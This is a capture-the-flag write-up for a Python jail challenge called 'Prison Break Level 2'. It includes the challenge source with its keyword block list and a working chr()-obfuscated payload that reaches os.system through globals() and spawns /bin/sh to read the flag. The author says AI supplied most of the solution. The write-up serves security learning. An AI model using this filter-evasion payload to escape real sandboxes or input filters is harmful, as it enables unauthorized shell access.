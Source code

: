 ## Challenge Name: Prison Break Level 2  
Category: Misc

Challenge Description:

You are a prisoner trying to escape from the prison for the second time. You are unable to access dangerous tools (`'sys', 'import', 'flag', 'open', '/', "sh", "bin", 'eval', 'exec', 'os', 'read', 'system', 'builtins', '__builtins__'`) and filters input for banned keywords. The goal is to bypass these restrictions and execute arbitrary commands (e.g., spawn a shell) to use `cat flag.txt`. You are given the source code used in the challenge to view the confiscated tools.

**TL;DR:** To bypass string filters ('os', 'system', 'sh', etc.), we used obfuscated strings via chr() to reconstruct blocked words dynamically (e.g., "os" → chr(111)+chr(115)).
We accessed the os module indirectly through globals(), then retrieved system from os.__dict__. Finally, we executed "/bin/sh" using the obfuscated path string. This gave us a shell, allowing us to run cat flag.txt.
Payload used:

```python
globals()[chr(111)+chr(115)].__dict__[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)](chr(47)+chr(98)+chr(105)+chr(110)+chr(47)+chr(115)+chr(104))
```
**Flag: CITU{0k_g00d_y0u_escaped_lvl_2_ret_has_a_message_for_you_in_the_next_level}**


**jail.py source code**
```python
#!/usr/local/bin/python

import os
import sys

print("="*40)
print("Welcome to the prison break level 2")
print("="*40)
print("Warden: I found out that you escaped at level 1, and now I will confiscate your tools.")
print("Warden: I will also make sure that you won't be able to escape again. BWAHAHA!!")
print("="*40)
print("---- TIPS from 'ret' who escaped and now he is in lvl 3 ----")
print("I love decorating texts in my house.")
print("------------------------------------------------------------")
hax = input("> ")
sys.stdin.close()

confiscated_tools = ['sys', 'import', 'flag', 'open', '/', "sh", "bin", 'eval', 'exec', 'os', 'read', 'system', 'builtins', '__builtins__']

if len(hax) > 512:
    print("In here your tools was replaced...")
    exit(1)

for tool in confiscated_tools:
    if tool in hax:
        print("In here your tools was replaced...")
        exit(1)

code = f"""
import os

{hax}

""".strip()

os.execv(sys.executable, [sys.executable, "-c", code])
```

### Approach  

**1. How Should I Bypass String Filters For Blocked Modules/Functions?**

The challenge blocks direct use of strings like `"os"`, `"system"`, and `"/bin/sh"`. With the use of AI here are some tricks provides us to do; we are going to:
- Use **Obfuscate strings** using `chr()`:  
  - `chr(111) + chr(115)` → `"os"`  
  - `chr(115) + chr(121) + ...` → `"system"`  
  - `chr(47) + chr(98) + ...` → `"/bin/sh"`  

This allows us to disguise or conceal the meaning or intent of the code in a software application. The `chr()` trick bypasses keyword checks because the filters only look for literal strings like `"os"`, not dynamically constructed ones.
 
- **Access the `os` module indirectly** via `globals()`:  
Since the direct import os is blocked, `globals()` gives us access to all loaded modules, including the already-imported os module
  ```python
  globals()["os"] 
  ```  
  Equivalent to just `os`, but constructed dynamically

**2. How To Call `system("/bin/sh")` Without Using Banned Keywords Directly?**

With the power of **obfuscate strings** we can get the os module using:
  ```python
  globals()[chr(111) + chr(115)]  # Gets the `os` module
  ```  
  
Even if we get the os module, we can not directly write `os.system`. But `os.__dict__` contains all attributes of the module (including system). We access it via dictionary lookup with our constructed string The `system` function is stored in `os.__dict__`:  
  ```python
  .__dict__[chr(115) + chr(121) + chr(115) + chr(116) + chr(101) + chr(109)]  # Gets `os.system`
  ```  
Now that we have access to the os.system indrectly, we can now then access the `"/bin/sh"` using **obfuscate strings** again.
  ```python
  (chr(47) + chr(98) + chr(105) + chr(110) + chr(47) + chr(115) + chr(104))  # "/bin/sh"
  ```  
  **Final payload**:  
  ```python
  globals()["os"].__dict__["system"]("/bin/sh")  # Deobfuscated version
  ```  
  
**3. Time To Get That Flag With Disguise🚩🎭**

```console
globals()[chr(111)+chr(115)].__dict__[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)](chr(47)+chr(98)+chr(105)+chr(110)+chr(47)+chr(115)+chr(104))
```
Now that the shell has been spawned, we can now use the command `cat flag.txt`
> CITU{0k_g00d_y0u_escaped_lvl_2_ret_has_a_message_for_you_in_the_next_level}

### Reflections
This made me learn more about dunder attributes in Python and that creative idea of using obfuscated strings to bypass the string checkers. I will not forget obfuscated strings.

Also, most of the logic to find the answer of this CTF is through AI.
  

---
[Back to home](/)

